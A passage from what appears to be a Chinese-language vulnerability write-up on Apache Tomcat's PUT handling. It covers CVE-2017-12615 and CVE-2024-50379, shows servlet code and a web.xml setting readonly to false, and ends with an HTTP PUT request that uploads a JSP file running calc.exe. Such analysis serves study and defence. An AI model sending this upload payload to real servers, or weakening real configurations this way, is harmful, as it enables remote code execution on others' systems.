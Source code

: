 ```
                    resp.setStatus(HttpServletResponse.SC_CREATED);
                }
            } else {
                resp.sendError(HttpServletResponse.SC_CONFLICT);
            }
        } finally {
            if (resourceInputStream != null) {
                try {
                    resourceInputStream.close();
                } catch (IOException ioe) {
                    // Ignore
                }
            }
        }
    }
```  
  
会去检查配置文件中的readonly的值是否为false，如果是true的话就直接return也就是不允许put请求，所以我们需要在配置文件中进行如下设置 (conf/web.cml) 注意是default servlet，因为上面讲了我们最终处理put请求是default servlet  
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>

        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```  
  
最终就可以进行put上传shell了，这个就是**CVE-2017-12615**  
。  
  
那么再看看最近很火的CVE-2024-50379。原理是条件竞争，通过并发put文件上传非标准后缀的“jsp”，并不断发起get请求一个标准后最的“jsp”文件，最终由于服务器的大小写不敏感，导致请求成功造成RCE。  
  
看看pyload是put一个xxx.Jsp（也可以PUT html........），为什么长这样呢？阅读了上文，固然就明白了。 当然是要绕过jsp servlet的后缀匹配规则了然后让default servlet去处理请求。  
  
现在我们尝试PUT一下 数据包如下  
```
PUT /test.Jsp HTTP/1.1
Host: 192.168.19.135:8080

<% Runtime.getRuntime().exec("calc.exe");%>

```  
  